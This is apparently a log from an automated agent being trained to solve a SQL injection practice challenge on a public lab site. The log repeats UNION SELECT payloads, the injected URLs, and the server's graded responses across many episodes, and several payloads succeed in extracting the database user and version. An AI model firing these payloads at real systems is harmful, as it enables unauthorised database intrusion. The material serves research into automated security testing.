Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with dif

  0%|          | 2079/1000000 [12:26:09<10948:43:19, 39.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 2080/1000000 [12:26:44<10506:46:24, 37.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server res

  0%|          | 2081/1000000 [12:26:58<8523:43:06, 30.75s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2082/1000000 [12:26:58<6029:25:15, 21.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2083/1000000 [12:26:59<4286:30:44, 15.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2084/1000000 [12:27:00<3072:16:29, 11.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2085/1000000 [12:27:01<2222:16:33,  8.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2086/1000000 [12:27:02<1647:21:17,  5.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user()

  0%|          | 2087/1000000 [12:28:09<6707:40:25, 24.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--


  0%|          | 2088/1000000 [12:30:42<17425:20:55, 62.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Se

  0%|          | 2089/1000000 [12:31:08<14381:59:19, 51.88s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2090/1000000 [12:31:09<10130:45:45, 36.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2091/1000000 [12:31:10<7161:04:04, 25.83s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2092/1000000 [12:31:10<5073:09:45, 18.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2093/1000000 [12:31:11<3615:10:06, 13.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2094/1000000 [12:31:12<2602:59:45,  9.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2095/1000000 [12:31:13<1890:57:24,  6.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2096/1000000 [12:31:14<1393:34:49,  5.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() -

  0%|          | 2097/1000000 [12:32:20<6473:04:17, 23.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax err

  0%|          | 2098/1000000 [12:33:10<8673:03:47, 31.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2099/1000000 [12:33:10<6133:04:12, 22.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2100/1000000 [12:33:11<4360:14:26, 15.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2101/1000000 [12:33:13<3199:44:47, 11.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2102/1000000 [12:33:14<2300:21:29,  8.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2103/1000000 [12:33:15<1675:31:41,  6.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2104/1000000 [12:33:15<1238:48:49,  4.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2105/1000000 [12:33:16<928:20:14,  3.35s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'u

  0%|          | 2106/1000000 [12:33:55<3909:12:02, 14.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2107/1000000 [12:33:56<2804:25:16, 10.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2108/1000000 [12:33:57<2028:18:20,  7.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2109/1000000 [12:33:58<1488:34:25,  5.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2110/1000000 [12:33:58<1106:53:48,  3.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2111/1000000 [12:34:00<913:06:50,  3.29s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2112/1000000 [12:34:01<699:11:17,  2.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2113/1000000 [12:34:02<553:35:27,  2.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQL

  0%|          | 2114/1000000 [12:34:52<4536:28:32, 16.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2115/1000000 [12:34:52<3235:52:23, 11.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2116/1000000 [12:34:53<2332:43:43,  8.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2117/1000000 [12:34:54<1697:33:44,  6.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2118/1000000 [12:34:56<1343:43:03,  4.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2119/1000000 [12:34:58<1107:05:53,  3.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3

  0%|          | 2120/1000000 [12:35:35<3889:53:27, 14.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2121/1000000 [12:35:39<3002:08:21, 10.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2122/1000000 [12:35:39<2164:15:38,  7.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2123/1000000 [12:35:40<1581:15:21,  5.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,

  0%|          | 2124/1000000 [12:37:27<9971:35:48, 35.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2125/1000000 [12:37:27<7040:06:31, 25.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2126/1000000 [12:37:28<4990:59:14, 18.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2127/1000000 [12:37:29<3557:54:31, 12.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2128/1000000 [12:37:30<2561:01:57,  9.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2129/1000000 [12:37:31<1861:14:04,  6.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/leve

  0%|          | 2130/1000000 [12:37:50<2912:40:13, 10.51s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union selec

  0%|          | 2131/1000000 [12:38:05<3331:46:03, 12.02s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2132/1000000 [12:38:06<2394:56:25,  8.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2133/1000000 [12:38:09<1926:25:28,  6.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2134/1000000 [12:38:11<1484:01:51,  5.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2135/1000000 [12:38:12<1103:49:46,  3.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https

  0%|          | 2136/1000000 [12:38:48<3802:18:59, 13.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2137/1000000 [12:38:49<2730:31:42,  9.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2138/1000000 [12:38:50<1976:10:55,  7.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2139/1000000 [12:38:51<1450:09:50,  5.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query wit

  0%|          | 2140/1000000 [12:39:36<4756:20:32, 17.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax

  0%|          | 2141/1000000 [12:40:04<5659:50:03, 20.42s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2142/1000000 [12:40:04<4032:35:54, 14.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2143/1000000 [12:40:05<2884:07:07, 10.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
